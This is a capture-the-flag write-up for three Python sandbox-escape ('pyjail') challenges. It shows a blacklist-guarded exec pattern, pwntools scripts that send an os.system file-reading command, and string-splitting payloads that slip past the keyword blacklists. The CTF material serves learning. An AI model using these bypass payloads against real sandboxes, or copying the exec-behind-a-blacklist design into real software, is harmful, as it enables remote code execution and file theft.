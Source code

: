 # pyjails

## Challenge

All 3 pyjails allow for execution of python on a remote server but with restricted words.

```py
userinput = input('>> ')
blacklist = [...] # different for each pyjail
for illegal in blacklist:
    if illegal in userinput.lower():
        raise Exception()
else:
    exec(userinput)
```

## Solve 1

```py
# blacklist = ['eval', 'exec', 'rm', 'kill', '+']

from pwn import *

r = remote('pyjail.ctf.maplebacon.org', 32003)
r.setLevel('DEBUG')

r.recvuntil(">> ")
r.sendline('import os;os.system("cat secrets/flag/topsecret.txt")')
r.recv()

# pyjail1: maple{welc0m3_to_the_w0rlD_oF_cod3_j4ilz}
```

## Solve 2

```py
# blacklist = ['eval', 'exec', 'import', 'os', '=', 'txt', 'read', 'dict', ';', ':', '\n', 'flag', 'subprocess', 'write', 'input', '_']

# ...
r.recvuntil(">> ")
r.sendline("print([i for i in open('fla'+'g.t'+'xt')])")
r.recv()

# maple{pyth0n_0n3_lInerz_UwU}
```

## Solve 3

```py
# blacklist = ['eval', 'exec', 'import', 'os', '=', 'txt', 'read', 'dict', ';', ':', '\n', 'flag', 'subprocess', 'write', 'input', '_', 'getattr', 'globals', 'update']


# ...
r.recvuntil(">> ")
r.sendline("print([i for i in open('fla'+'g.t'+'xt')])")
r.recv()

# pyjail3: maple{Did_u_kn0w_that_d0lph1ns_sl33p_with_one_eye_open}
```